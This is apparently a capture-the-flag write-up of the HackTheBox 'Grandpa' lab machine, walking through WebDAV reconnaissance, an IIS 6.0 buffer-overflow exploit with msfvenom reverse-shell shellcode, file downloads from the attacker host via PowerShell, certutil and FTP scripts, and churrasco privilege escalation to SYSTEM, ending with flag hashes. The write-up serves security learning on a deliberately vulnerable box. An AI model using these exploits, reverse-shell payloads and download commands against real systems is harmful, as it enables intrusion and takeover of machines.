





HackTheBox - Grandpa [no Metasploit]
Summary
IP: 10.10.10.14
| Port | Service | Version | Notes |
|---|---|---|---|
| 80 | http | Microsoft IIS httpd 6.0 | WebDAV |
OS: Microsoft(R) Windows(R) Server 2003, Standard Edition 5.2.3790 Service Pack 2 Build 3790 x86
Flags
| user.txt | root.txt |
|---|---|
| bdff5ec67c3cff017f2bedc146a5d869 | 9359e905a2c35f861f6a57cecf28bb7b |
Reconnaissance
export ip=10.10.10.14
Starting with a Nmap TCP scan to discover used ports and services behind, with our usual options:
-sCruns defaults Nmap scripts-sVtries to identify the software versions-oAwill output the results in files prefixed by nmap_tcp and using the formats xml, nmap and gnmap-p-will scan all ports and not the 1000 usual ones
sudo nmap -O -sV -sC -oA nmap_tcp -p- $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-04 09:31 CET
Stats: 0:01:25 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 66.99% done; ETC: 09:33 (0:00:41 remaining)
Nmap scan report for 10.10.10.14
Host is up (0.040s latency).
Not shown: 65534 filtered ports
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 6.0
| http-methods:
|_ Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Error
| http-webdav-scan:
| Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
| WebDAV type: Unknown
| Server Date: Wed, 04 Nov 2020 08:38:10 GMT
| Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_ Server Type: Microsoft-IIS/6.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (91%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (91%), Microsoft Windows Server 2008 Enterprise SP2 (90%), Microsoft Windows Server 2003 SP2 (90%), Microsoft Windows 2003 SP2 (89%), Microsoft Windows XP SP3 (89%), Microsoft Windows XP (87%), Microsoft Windows 2000 SP4 (87%), Microsoft Windows Server 2003 SP1 - SP2 (86%), Microsoft Windows XP SP2 or SP3 (85%), Microsoft Windows XP SP2 or Windows Server 2003 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 130.82 seconds
UDP scans (with the -sU flag) in the background:
sudo nmap -sU -oA nmap_udp_light $ip
Nmap scan report for 10.10.10.14
Host is up (0.040s latency).
All 1000 scanned ports on 10.10.10.14 are open|filtered
sudo nmap -sU -oA nmap_udp -p- $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-04 09:45 CET
Nmap scan report for 10.10.10.14
Host is up (0.040s latency).
All 65535 scanned ports on 10.10.10.14 are open|filtered
Nmap done: 1 IP address (1 host up) scanned in 2671.98 seconds
So we’ve got one service on port 80, a Microsoft IIS httpd 6.0 and probably a WebDAV on it and nothing on UDP.
Strategy
We don’t have many targets here, only the web server and its WebDAV.
Website - port 80
Site
Checking out the webserver at http://10.10.10.14:

gobuster
Run a web scanner against it:
$ gobuster dir -u http://$ip -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x asp,txt -o gobuster_raft_medium_directories.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://10.10.10.14
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
[+] Status codes: 200,204,301,302,307,401,403
[+] User Agent: gobuster/3.1.0
[+] Extensions: asp,txt
[+] Timeout: 10s
===============================================================
2020/11/04 09:37:03 Starting gobuster in directory enumeration mode
===============================================================
/_vti_bin (Status: 301)
Progress: 23979 / 30001 (79.93%)[ERROR] 2020/11/04 09:42:05 [!] parse "http://10.10.10.14/error\x1f_log": net/url: invalid control character in URL
===============================================================
2020/11/04 09:43:21 Finished
===============================================================
Let’s go explore a bit…. Starting with http://10.10.10.14/_vti_bin:

What’s that _vti_bin directory?
The SharePoint environment includes built-in Web services that can be used to work with areas of the SharePoint object model remotely. Each Web application Web service is installed in the
_vti_bindirectory, which maps to the following file system location: %COMMONPROGRAMFILES%\Microsoft Shared\web server extensions\12\ISAPI.
Nothing there, moving along to the WebDAV thinggy.
WebDAV
Background
What’s WebDAV?
WebDAV (Web Distributed Authoring and Versioning) is an extension of the Hypertext Transfer Protocol (HTTP) that allows clients to perform remote Web content authoring operations.
WebDAV extends the set of standard HTTP verbs and headers allowed for request methods. The added verbs include:
COPY
copy a resource from one URI to another
LOCK
put a lock on a resource. WebDAV supports both shared and exclusive locks.
MKCOL
create collections (a.k.a. a directory)
MOVE
move a resource from one URI to another
PROPFIND
retrieve properties, stored as XML, from a web resource. It is also overloaded to allow one to retrieve the collection structure (also known as directory hierarchy) of a remote system.
PROPPATCH
change and delete multiple properties on a resource in a single atomic act
UNLOCK
remove a lock from a resource
The Nmap scan says that dangerous methods are allowed:
|_ Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
Manual WebDAV
I picked one of them randomly and tried it on the website to see how the website would react. The MSDN has some example requests, let’s try to replicate them!
Using the Firefox Developer Tools, the Edit and Resend functions allows us to modify the HTTP verb, let’s change from GET to PROPFIND:

We get a 411 Length Required in answer.
Okay, let’s try adding Content-Length and a bunch of other headers shamelessly stolen from the MSDN example:

Note: the size in Content-Length is automatically updated as you add/remove characters in the request body.

We have a 207 in answer, with the following payload:
<?xml version="1.0"?>
<a:multistatus xmlns:b="urn:uuid:c2f41010-65b3-11d1-a29f-00aa00c14882/" xmlns:c="xml:" xmlns:a="DAV:">
<a:response>
<a:href>http://10.10.10.14/</a:href>
<a:propstat>
<a:status>HTTP/1.1 200 OK</a:status>
<a:prop>
<a:getcontenttype>application/octet-stream</a:getcontenttype>
<a:getcontentlength b:dt="int">0</a:getcontentlength>
</a:prop>
</a:propstat>
</a:response>
</a:multistatus>
The WebDAV is definitely interesting!
Note: It was my first encounter with WebDAV and I lacked methodology. After reading other writeups, I should have checked if PUT allows us to upload files (hi webshell!). And there’s a tool to do webdav recon called davtest.
Vulnerabilities
IIS 6.0 is pretty old, it should be vulnerable to something interesting…

41738, IIS 6.0 - WebDAV 'ScStoragePathFrontUrl Remote Buffer Overflow sounds interesting enough, let’s check it out!
$ searchsploit -m 41738
Exploit: Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow
URL: https://www.exploit-db.com/exploits/41738
Path: /usr/share/exploits/exploit-db/exploitdb/exploits/windows/remote/41738.py
File Type: ASCII text, with very long lines, with CRLF line terminators
Copied to: /mnt/hgfs/grandpa/41738.py
Some links about this vulnerability:
The shellcode in the original PoC didn’t launch a shell but just a calc.exe. One option could be to replace it with a shellcode generated with msfvenom. Or I could use explodingcan, a reimplementation in Python of the same exploit.
Shell as network service
explodingcan
The README includes the msfvenom command to generate the shellcode, which must use alphanumeric chars only:
$ msfvenom -p windows/meterpreter/reverse_tcp -f raw -v sc -e x86/alpha_mixed LHOST=10.10.14.25 LPORT=4444 > shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 744 (iteration=0)
x86/alpha_mixed chosen with final size 744
Payload size: 744 bytes
Next, I started a listener on my host with:
nc -lvp 4444
For some unknown reason, I wasn’t able to keep a reverse shell with nc, it would close immediately. As a fallback, I used metasploit’s handler. Maybe because of meterpreter?
msf5 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf5 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.14.25:4444
[*] Sending stage (176195 bytes) to 10.10.10.14
[*] Meterpreter session 1 opened (10.10.14.25:4444 -> 10.10.10.14:1035) at 2020-11-04 10:27:19 +0100
Run the exploit:
$ python2 explodingcan.py http://10.10.10.14 shellcode
[*] Using URL: http://10.10.10.14
[*] Server found: Microsoft-IIS/6.0
[-] Unable to determine IIS path size
Buh. It’s definitely not the most stable exploit in the world… Since it’s a buffer overflow, it tends to put the machine in a really weird state. I advise lots and lots of resets on this machine:
$ python2 explodingcan.py http://10.10.10.14 shellcode
[*] Using URL: http://10.10.10.14
[*] Server found: Microsoft-IIS/6.0
[*] Found IIS path size: 18
[*] Default IIS path: C:\Inetpub\wwwroot
[*] WebDAV request: OK
[*] Payload len: 2241
[*] Sending payload...
We get a shell as NT AUTHORITY\NETWORK SERVICE :
meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
meterpreter > sysinfo
Computer : GRANPA
OS : Windows .NET Server (5.2 Build 3790, Service Pack 2).
Architecture : x86
System Language : en_US
Domain : HTB
Logged On Users : 2
Meterpreter : x86/windows
User.txt
And that should be enough to get user.txt !
C:\Documents and Settings>dir
dir
Volume in drive C has no label.
Volume Serial Number is 246C-D7FE
Directory of C:\Documents and Settings
04/12/2017 05:32 PM <DIR> .
04/12/2017 05:32 PM <DIR> ..
04/12/2017 04:12 PM <DIR> Administrator
04/12/2017 04:03 PM <DIR> All Users
04/12/2017 04:32 PM <DIR> Harry
0 File(s) 0 bytes
5 Dir(s) 18,094,510,080 bytes free
Or not ¯\_(ツ)_/¯
C:\Documents and Settings>cd Harry
cd Harry
Access is denied.
Nevermind huh, let’s go for the root account then ~~
Privesc
Finding a location
Surprisingly, finding a writable directory did take some work, I ended up going for the temporary default directory:
C:\Documents and Settings>echo %TEMP%
C:\DOCUME~1\NETWOR~1\LOCALS~1\Temp
Alright, we can write there:
C:\DOCUME~1\NETWOR~1\LOCALS~1\Temp> echo "hi" > test.txt
C:\DOCUME~1\NETWOR~1\LOCALS~1\Temp>dir
Volume in drive C has no label.
Volume Serial Number is 246C-D7FE
Directory of C:\DOCUME~1\NETWOR~1\LOCALS~1\Temp
11/04/2020 05:52 PM <DIR> .
11/04/2020 05:52 PM <DIR> ..
11/04/2020 05:52 PM 7 test.txt
1 File(s) 7 bytes
2 Dir(s) 18,093,899,776 bytes free
Transfering files
Lots of trial’n’errors also there… I started with powershell. I know, a bit optimistic on a Windows Server 2003…
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.25:9005/Taihou32.exe', 'C:\DOCUME~1\NETWOR~1\LOCALS~1\Temp\Taihou32.exe')"
'powershell' is not recognized as an internal or external command,
operable program or batch file.
No powershell, certutil maybe? The binary was there, but the syntax I usually use to download files didn’t worked:
C:\DOCUME~1\NETWOR~1\LOCALS~1\Temp>certutil -urlcache -f http://10.10.14.25/Taihou32.exe Taihou32.exe
certutil -v -urlcache -f "http://10.10.14.25/Taihou32.exe" Taihou32.exe
CertUtil: -URLCache command FAILED: 0x80070057 (WIN32: 87)
CertUtil: The parameter is incorrect.
Buh, what else? TFTP?
C:\DOCUME~1\NETWOR~1\LOCALS~1\Temp> tftp -h
'tftp' is not recognized as an internal or external command,
operable program or batch file.
Nope… FTP then?
C:\DOCUME~1\NETWOR~1\LOCALS~1\Temp>ftp -h
ftp -h
Transfers files to and from a computer running an FTP server service
(sometimes called a daemon). Ftp can be used interactively.
Finally! Something. I started a FTP server on the host:
$ sudo python2 -m pyftpdlib -p 21
[I 2020-11-05 10:36:26] >>> starting FTP server on 0.0.0.0:21, pid=58165 <<<
[I 2020-11-05 10:36:26] concurrency model: async
[I 2020-11-05 10:36:26] masquerade (NAT) address: None
[I 2020-11-05 10:36:26] passive ports: None
On the target, create a ftp.txt with all the FTP commands:
echo open 10.10.14.25>ftp.txt&echo anonymous>>ftp.txt&echo anonymous@>>ftp.txt&echo binary>>ftp.txt&echo get exploit.exe>>ftp.txt&echo bye>>ftp.txt
Then connect and execute the commands in the file:
C:\DOCUME~1\NETWOR~1\LOCALS~1\Temp> ftp -s:ftp.txt
ftp -s:ftp.txt
User (10.10.14.25:(none)): open 10.10.14.25
binary
get exploit.exe
bye
Finding a vulnerability
Let’s get some details info on the box with systeminfo:
C:\DOCUME~1\NETWOR~1\LOCALS~1\Temp>systeminfo
systeminfo
Host Name: GRANPA
OS Name: Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version: 5.2.3790 Service Pack 2 Build 3790
OS Manufacturer: Microsoft Corporation
OS Configuration: Standalone Server
OS Build Type: Uniprocessor Free
Registered Owner: HTB
Registered Organization: HTB
Product ID: 69712-296-0024942-44782
Original Install Date: 4/12/2017, 5:07:40 PM
System Up Time: 0 Days, 0 Hours, 19 Minutes, 5 Seconds
System Manufacturer: VMware, Inc.
System Model: VMware Virtual Platform
System Type: X86-based PC
Processor(s): 1 Processor(s) Installed.
[01]: x86 Family 23 Model 1 Stepping 2 AuthenticAMD ~1998 Mhz
BIOS Version: INTEL - 6040000
Windows Directory: C:\WINDOWS
System Directory: C:\WINDOWS\system32
Boot Device: \Device\HarddiskVolume1
System Locale: en-us;English (United States)
Input Locale: en-us;English (United States)
Time Zone: (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory: 1,023 MB
Available Physical Memory: 796 MB
Page File: Max Size: 2,470 MB
Page File: Available: 2,327 MB
Page File: In Use: 143 MB
Page File Location(s): C:\pagefile.sys
Domain: HTB
Logon Server: N/A
Hotfix(s): 1 Hotfix(s) Installed.
[01]: Q147222
Network Card(s): N/A
I copied the output of systeminfo into a systeminfo.txtand ran Windows Exploit Suggester:
$ python2 windows-exploit-suggester.py --database 2020-11-04-mssb.xls --systeminfo /mnt/hgfs/grandpa/loot/systeminfo.txt
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 1 hotfix(es) against the 356 potential bulletins(s) with a database of 137 known exploits
[*] there are now 356 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2003 SP2 32-bit'
[*]
[M] MS15-051: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (3057191) - Important
[*] https://github.com/hfiref0x/CVE-2015-1701, Win32k Elevation of Privilege Vulnerability, PoC
[*] https://www.exploit-db.com/exploits/37367/ -- Windows ClientCopyImage Win32k Exploit, MSF
[*]
[E] MS15-010: Vulnerabilities in Windows Kernel-Mode Driver Could Allow Remote Code Execution (3036220) - Critical
[*] https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows 8.1 - win32k Local Privilege Escalation (MS15-010), PoC
[*] https://www.exploit-db.com/exploits/37098/ -- Microsoft Windows - Local Privilege Escalation (MS15-010), PoC
[*] https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows win32k Local Privilege Escalation (MS15-010), PoC
[*]
[E] MS14-070: Vulnerability in TCP/IP Could Allow Elevation of Privilege (2989935) - Important
[*] http://www.exploit-db.com/exploits/35936/ -- Microsoft Windows Server 2003 SP2 - Privilege Escalation, PoC
[*]
[E] MS14-068: Vulnerability in Kerberos Could Allow Elevation of Privilege (3011780) - Critical
[*] http://www.exploit-db.com/exploits/35474/ -- Windows Kerberos - Elevation of Privilege (MS14-068), PoC
[*]
[M] MS14-064: Vulnerabilities in Windows OLE Could Allow Remote Code Execution (3011443) - Critical
[*] https://www.exploit-db.com/exploits/37800// -- Microsoft Windows HTA (HTML Application) - Remote Code Execution (MS14-064), PoC
[*] http://www.exploit-db.com/exploits/35308/ -- Internet Explorer OLE Pre-IE11 - Automation Array Remote Code Execution / Powershell VirtualAlloc (MS14-064), PoC
[*] http://www.exploit-db.com/exploits/35229/ -- Internet Explorer <= 11 - OLE Automation Array Remote Code Execution (#1), PoC
[*] http://www.exploit-db.com/exploits/35230/ -- Internet Explorer < 11 - OLE Automation Array Remote Code Execution (MSF), MSF
[*] http://www.exploit-db.com/exploits/35235/ -- MS14-064 Microsoft Windows OLE Package Manager Code Execution Through Python, MSF
[*] http://www.exploit-db.com/exploits/35236/ -- MS14-064 Microsoft Windows OLE Package Manager Code Execution, MSF
[*]
[M] MS14-062: Vulnerability in Message Queuing Service Could Allow Elevation of Privilege (2993254) - Important
[*] http://www.exploit-db.com/exploits/34112/ -- Microsoft Windows XP SP3 MQAC.sys - Arbitrary Write Privilege Escalation, PoC
[*] http://www.exploit-db.com/exploits/34982/ -- Microsoft Bluetooth Personal Area Networking (BthPan.sys) Privilege Escalation
[*]
[M] MS14-058: Vulnerabilities in Kernel-Mode Driver Could Allow Remote Code Execution (3000061) - Critical
[*] http://www.exploit-db.com/exploits/35101/ -- Windows TrackPopupMenu Win32k NULL Pointer Dereference, MSF
[*]
[E] MS14-040: Vulnerability in Ancillary Function Driver (AFD) Could Allow Elevation of Privilege (2975684) - Important
[*] https://www.exploit-db.com/exploits/39525/ -- Microsoft Windows 7 x64 - afd.sys Privilege Escalation (MS14-040), PoC
[*] https://www.exploit-db.com/exploits/39446/ -- Microsoft Windows - afd.sys Dangling Pointer Privilege Escalation (MS14-040), PoC
[*]
[E] MS14-035: Cumulative Security Update for Internet Explorer (2969262) - Critical
[E] MS14-029: Security Update for Internet Explorer (2962482) - Critical
[*] http://www.exploit-db.com/exploits/34458/
[*]
[E] MS14-026: Vulnerability in .NET Framework Could Allow Elevation of Privilege (2958732) - Important
[*] http://www.exploit-db.com/exploits/35280/, -- .NET Remoting Services Remote Command Execution, PoC
[*]
[M] MS14-012: Cumulative Security Update for Internet Explorer (2925418) - Critical
[M] MS14-009: Vulnerabilities in .NET Framework Could Allow Elevation of Privilege (2916607) - Important
[E] MS14-002: Vulnerability in Windows Kernel Could Allow Elevation of Privilege (2914368) - Important
[E] MS13-101: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (2880430) - Important
[M] MS13-097: Cumulative Security Update for Internet Explorer (2898785) - Critical
[M] MS13-090: Cumulative Security Update of ActiveX Kill Bits (2900986) - Critical
[M] MS13-080: Cumulative Security Update for Internet Explorer (2879017) - Critical
[M] MS13-071: Vulnerability in Windows Theme File Could Allow Remote Code Execution (2864063) - Important
[M] MS13-069: Cumulative Security Update for Internet Explorer (2870699) - Critical
[M] MS13-059: Cumulative Security Update for Internet Explorer (2862772) - Critical
[M] MS13-055: Cumulative Security Update for Internet Explorer (2846071) - Critical
[M] MS13-053: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Remote Code Execution (2850851) - Critical
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*] http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*] http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*]
[M] MS11-080: Vulnerability in Ancillary Function Driver Could Allow Elevation of Privilege (2592799) - Important
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[M] MS10-015: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (977165) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[M] MS09-065: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Remote Code Execution (969947) - Critical
[M] MS09-053: Vulnerabilities in FTP Service for Internet Information Services Could Allow Remote Code Execution (975254) - Important
[M] MS09-020: Vulnerabilities in Internet Information Services (IIS) Could Allow Elevation of Privilege (970483) - Important
[M] MS09-004: Vulnerability in Microsoft SQL Server Could Allow Remote Code Execution (959420) - Important
[M] MS09-002: Cumulative Security Update for Internet Explorer (961260) (961260) - Critical
[M] MS09-001: Vulnerabilities in SMB Could Allow Remote Code Execution (958687) - Critical
[M] MS08-078: Security Update for Internet Explorer (960714) - Critical
[*] done
To trim down the list, I’ll target vulns affecting Windows itself (kernel, TCP/IP stack), bye bye vulns for Internet Explorer and Microsoft SQL Server. Also, vulns with no PoC are not interesting for us.
MS15-051 - Fail
https://www.exploit-db.com/exploits/37367/
Grab the compiled binary from this Github repository CVE-2015-1701, transfer it with FTP, run:
C:\DOCUME~1\NETWOR~1\LOCALS~1\Temp>Taihou32.exe
Taihou32.exe
Nothing’s happening… I don’t get my shell back, it just… hangs. The source for the metasploit module doesn’t says it’s compatible with Windows Server 2003 anyway so eh. Let’s move on.
MS15-010 - Fail
I grabbed the compiled exploit fro 39035 from windows kernel exploits, transferred it through FTP and ran it:
C:\DOCUME~1\NETWOR~1\LOCALS~1\Temp>39035.exe
The image file C:\DOCUME~1\NETWOR~1\LOCALS~1\Temp\39035.exe is valid, but is for a machine type other than the current machine.
MS14-068 - Skip
http://www.exploit-db.com/exploits/35474/
The README of the exploit is in chinese… That one looked complicated, not sure it works from a non-graphic session and uses lots of concept I don’t have (Hi Kerberos). Let’s skip this one :‘D
MS14-070 - Fail
Sounded like a good candidate, affects exactly Windows Server 2003 SP2 and all:
- http://www.exploit-db.com/exploits/35936/
- https://www.korelogic.com/Resources/Advisories/KL-001-2015-001.txt
I grabbed the compiled binaries for MS14-070 from windows-kernel-exploits, transferred with FTP and run them:
C:\DOCUME~1\NETWOR~1\LOCALS~1\Temp>35936.exe
35936.exe
C:\DOCUME~1\NETWOR~1\LOCALS~1\Temp>whoami
whoami
nt authority\network service
C:\DOCUME~1\NETWOR~1\LOCALS~1\Temp>37755.exe
37755.exe
C:\DOCUME~1\NETWOR~1\LOCALS~1\Temp>whoami
whoami
nt authority\network service
Buh, the disappointment.
churrasco
At this point, I was really frustrated but I figured that probably my Windows knowledge wasn’t enough to solve this box without metasploit yet. So I checked the excellent writeup of 0xdf! And learned the existence of whoami \priv
C:\DOCUME~1\NETWOR~1\LOCALS~1\Temp>whoami /priv
whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ========================================= ========
SeAuditPrivilege Generate security audits Disabled
SeIncreaseQuotaPrivilege Adjust memory quotas for a process Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token Disabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeImpersonatePrivilege Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects Enabled
From 0xdf’s writeup:
SEImpersonalPrivilegeis one I know to look out for. For modern boxes, that means a potato exploit (juicy, lonely, rotten). But for 2003, it’s better to start with churrasco
Grab the binary from github, run a FTP server on the host:
$ sudo python2 -m pyftpdlib -p 21
[I 2020-11-05 14:15:27] >>> starting FTP server on 0.0.0.0:21, pid=60478 <<<
[I 2020-11-05 14:15:27] concurrency model: async
[I 2020-11-05 14:15:27] masquerade (NAT) address: None
[I 2020-11-05 14:15:27] passive ports: None
On the target, create a file with the FTP commands to download the binary:
C:\DOCUME~1\NETWOR~1\LOCALS~1\Temp>echo open 10.10.14.25>ftp.txt&echo anonymous>>ftp.txt&echo anonymous@>>ftp.txt&echo binary>>ftp.txt&echo get churrasco.exe>>ftp.txt&echo bye>>ftp.txt
Run the FTP command:
C:\DOCUME~1\NETWOR~1\LOCALS~1\Temp>ftp -s:ftp.txt
ftp -s:ftp.txt
User (10.10.14.25:(none)): open 10.10.14.25
binary
get churrasco.exe
bye
Run the exploit:
C:\DOCUME~1\NETWOR~1\LOCALS~1\Temp>churrasco.exe -d cmd.exe
churrasco.exe -d cmd.exe
/churrasco/-->Current User: NETWORK SERVICE
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 684
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 688
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 692
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 700
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x72c
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found LOCAL SERVICE Token
/churrasco/-->Found SYSTEM token 0x724
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.
C:\DOCUME~1\NETWOR~1\LOCALS~1\Temp>whoami
whoami
nt authority\system
From there, grab the flags:
user.txt:
C:\Documents and Settings\Harry\Desktop>dir
dir
Volume in drive C has no label.
Volume Serial Number is 246C-D7FE
Directory of C:\Documents and Settings\Harry\Desktop
04/12/2017 04:32 PM <DIR> .
04/12/2017 04:32 PM <DIR> ..
04/12/2017 04:32 PM 32 user.txt
1 File(s) 32 bytes
2 Dir(s) 18,086,428,672 bytes free
root.txt:
C:\Documents and Settings\Administrator\Desktop>dir
dir
Volume in drive C has no label.
